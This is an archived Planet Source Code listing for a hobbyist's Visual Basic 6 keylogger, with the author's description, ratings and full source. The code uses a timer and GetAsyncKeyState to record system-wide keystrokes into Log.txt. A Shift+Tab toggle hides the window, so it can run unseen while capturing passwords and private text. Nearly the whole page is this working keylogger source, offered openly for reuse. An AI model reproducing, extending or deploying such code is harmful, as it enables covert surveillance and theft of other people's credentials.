

<div align="center">

## A Simple Key Logger


</div>

### Description

This is a simple keylogger I wrote for fun. It records most keystrokes and saves the log to a file! It sometimes gets keystrokes mixed up but other than that it seems to work fine. Please comment on my code as this is the first project I've uploaded onto PSC. Any help/suggestions are appreciated!
 
### More Info
 
Needs a textbox on the form called txtLog.


<span>             |<span>
---                |---
**Submitted On**   |
**By**             |[Calvin Mayer](https://github.com/Planet-Source-Code/PSCIndex/blob/master/ByAuthor/calvin-mayer.md)
**Level**          |Intermediate
**User Rating**    |4.5 (18 globes from 4 users)
**Compatibility**  |VB 6\.0
**Category**       |[Internet/ HTML](https://github.com/Planet-Source-Code/PSCIndex/blob/master/ByCategory/internet-html__1-34.md)
**World**          |[Visual Basic](https://github.com/Planet-Source-Code/PSCIndex/blob/master/ByWorld/visual-basic.md)
**Archive File**   |[](https://github.com/Planet-Source-Code/calvin-mayer-a-simple-key-logger__1-56202/archive/master.zip)

### API Declarations

```
Private Declare Function GetAsyncKeyState Lib "user32" (ByVal vKey As Long) As Integer
```


### Source Code

```
'Copyright 2004 Calvin Mayer
'Press shift+tab to toggle it's visible property
Option Explicit
Private Declare Function GetAsyncKeyState Lib "user32" (ByVal vKey As Long) As Integer
Private Sub Form_Load()
txtLog.Text = ""
End Sub
Private Sub Timer1_Timer()
CheckForKeyPress
WriteToFile "\Log.txt"
End Sub
'The subroutine that checks for keystrokes. Probably inefficient but I don't know of any other method. (would a select case work here?)
Sub CheckForKeyPress()
 With txtLog
 If GetAsyncKeyState(vbKeyShift) Then
  If GetAsyncKeyState(vbKeyTab) Then
  Me.Visible = Not Me.Visible
  Else
  .Text = .Text + "{shift}"
  End If
 End If
 If GetAsyncKeyState(vbKeyTab) Then
  .Text = .Text + "{tab}"
 End If
 If GetAsyncKeyState(vbKeySpace) Then
  .Text = .Text + "{space}"
 End If
 If GetAsyncKeyState(vbKeyControl) Then
  .Text = .Text + "{ctrl}"
 End If
 If GetAsyncKeyState(vbKeyMenu) Then
  .Text = .Text + "{alt}"
 End If
 If GetAsyncKeyState(vbKey0) Then
  .Text = .Text + "0"
 End If
 If GetAsyncKeyState(vbKey1) Then
  .Text = .Text + "1"
 End If
 If GetAsyncKeyState(vbKey2) Then
  .Text = .Text + "2"
 End If
 If GetAsyncKeyState(vbKey3) Then
  .Text = .Text + "3"
 End If
 If GetAsyncKeyState(vbKey4) Then
  .Text = .Text + "4"
 End If
 If GetAsyncKeyState(vbKey5) Then
  .Text = .Text + "5"
 End If
 If GetAsyncKeyState(vbKey6) Then
  .Text = .Text + "6"
 End If
 If GetAsyncKeyState(vbKey7) Then
  .Text = .Text + "7"
 End If
 If GetAsyncKeyState(vbKey8) Then
  .Text = .Text + "8"
 End If
 If GetAsyncKeyState(vbKey9) Then
  .Text = .Text + "9"
 End If
 If GetAsyncKeyState(vbKeyA) Then
  .Text = .Text + "A"
 End If
 If GetAsyncKeyState(vbKeyB) Then
  .Text = .Text + "B"
 End If
 If GetAsyncKeyState(vbKeyC) Then
  .Text = .Text + "C"
 End If
 If GetAsyncKeyState(vbKeyD) Then
  .Text = .Text + "D"
 End If
 If GetAsyncKeyState(vbKeyE) Then
  .Text = .Text + "E"
 End If
 If GetAsyncKeyState(vbKeyF) Then
  .Text = .Text + "F"
 End If
 If GetAsyncKeyState(vbKeyG) Then
  .Text = .Text + "G"
 End If
 If GetAsyncKeyState(vbKeyH) Then
  .Text = .Text + "H"
 End If
 If GetAsyncKeyState(vbKeyI) Then
  .Text = .Text + "I"
 End If
 If GetAsyncKeyState(vbKeyJ) Then
  .Text = .Text + "J"
 End If
 If GetAsyncKeyState(vbKeyK) Then
  .Text = .Text + "K"
 End If
 If GetAsyncKeyState(vbKeyL) Then
  .Text = .Text + "L"
 End If
 If GetAsyncKeyState(vbKeyM) Then
  .Text = .Text + "M"
 End If
 If GetAsyncKeyState(vbKeyN) Then
  .Text = .Text + "N"
 End If
 If GetAsyncKeyState(vbKeyO) Then
  .Text = .Text + "O"
 End If
 If GetAsyncKeyState(vbKeyP) Then
  .Text = .Text + "P"
 End If
 If GetAsyncKeyState(vbKeyQ) Then
  .Text = .Text + "Q"
 End If
 If GetAsyncKeyState(vbKeyR) Then
  .Text = .Text + "R"
 End If
 If GetAsyncKeyState(vbKeyS) Then
  .Text = .Text + "S"
 End If
 If GetAsyncKeyState(vbKeyT) Then
  .Text = .Text + "T"
 End If
 If GetAsyncKeyState(vbKeyU) Then
  .Text = .Text + "U"
 End If
 If GetAsyncKeyState(vbKeyV) Then
  .Text = .Text + "V"
 End If
 If GetAsyncKeyState(vbKeyW) Then
  .Text = .Text + "W"
 End If
 If GetAsyncKeyState(vbKeyX) Then
  .Text = .Text + "X"
 End If
 If GetAsyncKeyState(vbKeyY) Then
  .Text = .Text + "Y"
 End If
 If GetAsyncKeyState(vbKeyZ) Then
  .Text = .Text + "Z"
 End If
 If GetAsyncKeyState(vbKeyDelete) Then
  .Text = .Text + "{delete}"
 End If
 If GetAsyncKeyState(vbKeyBack) Then
  .Text = .Text + "{BackSpace}"
 End If
 If GetAsyncKeyState(vbKeyPageDown) Then
  .Text = .Text + "{page down}"
 End If
 If GetAsyncKeyState(vbKeyPageUp) Then
  .Text = .Text + "{page up}"
 End If
 If GetAsyncKeyState(vbKeyAdd) Then
  .Text = .Text + "+"
 End If
 If GetAsyncKeyState(vbKeySubtract) Then
  .Text = .Text + "-"
 End If
 If GetAsyncKeyState(vbKeyDecimal) Then
  .Text = .Text + "."
 End If
 If GetAsyncKeyState(vbKeyReturn) Then
  .Text = .Text + "{enter}"
 End If
 End With
End Sub
'The subroutine that saves the log to a text file
Sub WriteToFile(fileName As String)
 Open App.Path & fileName For Output As #1
 Write #1, txtLog.Text
 Close #1
End Sub
```

